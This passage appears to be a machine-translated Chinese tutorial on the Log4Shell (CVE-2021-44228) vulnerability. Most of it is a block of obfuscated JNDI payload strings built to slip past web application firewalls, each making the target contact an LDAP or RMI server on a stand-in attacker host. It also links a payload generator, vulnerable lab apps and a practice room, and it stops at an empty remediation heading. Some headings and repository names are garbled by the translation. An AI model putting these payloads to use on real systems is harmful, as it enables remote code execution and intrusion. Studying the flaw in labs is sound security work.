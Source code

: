 # 酷炫晶圆旁路技巧

要绕过 Web 应用程序防火墙，您可以使用以下有效负载:

```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://attacker-controlled-server.com/poc}${${::-j}ndi:rmi://attacker-controlled-server.com/ass}${jndi:rmi://attacker-controlled-server.com}${${lower:jndi}:${lower:rmi}://attacker-controlled-server.com/poc}${${lower:${lower:jndi}}:${lower:rmi}://attacker-controlled-server.com/poc}${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://attacker-controlled-server.com/poc}${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attacker-controlled-server.com/poc}Working AWS/Cloudfront [#log4j](https://twitter.com/hashtag/log4j?src=hashtag_click) WAF Bypass within the URI path by [@nagli](https://twitter.com/naglinagli/status/1474511213350600707)
http:\/\/hostname.com/${jndi${nagli:-:}ldap:${::-/}/${hostName}.anything.attacker-controlled-server.com/poc}}WAF bypass for log4j injection by [@11xuxx](https://twitter.com/11xuxx/status/1473777341201625088)
${j${k8s:k5:-ND}${sd:k5:-${123%25ff:-${123%25ff:-${upper:ı}:}}}ldap://attacker-controlled-server.com/poc}Log4j-Payload-Genrator to Bypass WAF
[https://github.com/woodpecker-appstore/log4j-payload-generator](https://github.com/woodpecker-appstore/log4j-payload-generator)
```

# 脆弱的实验室

如果想在本地重现这个漏洞，可以参考 christophetd 的[漏洞 app](https://github.com/christophetd/log4shell-vulnerable-app) 。

[](https://github.com/christophetd/log4shell-vulnerable-app) [## GitHub-Christophe TD/log 4 shell-vulnerable-app:Spring Boot web 应用程序易受…

### 此存储库包含易受 CVE 攻击的 Spring Boot web 应用程序-2021–44228，昵称为 Log4Shell。它使用 Log4j…

github.com](https://github.com/christophetd/log4shell-vulnerable-app) 

log4j RCE 测试环境和概念验证

[](https://github.com/leonjza/log4jpwn) [## GitHub—Leon jza/log 4 jpwn:log4j rce 测试环境和 poc

### log4j rce 测试环境。请参阅:https://www.lunasec.io/docs/blog/log4j-zero-day/此存储库包含一个…

github.com](https://github.com/leonjza/log4jpwn) 

约翰·哈蒙德[准备的“太阳能”试衣间](https://twitter.com/_JohnHammond)

[](https://tryhackme.com/room/solar) [## TryHackMe | Solar，利用 log4j

### 探索 CVE-2021–44228，log4j 中的一个漏洞，它影响了世界上几乎所有的软件。

tryhackme.com](https://tryhackme.com/room/solar) 

# 补救
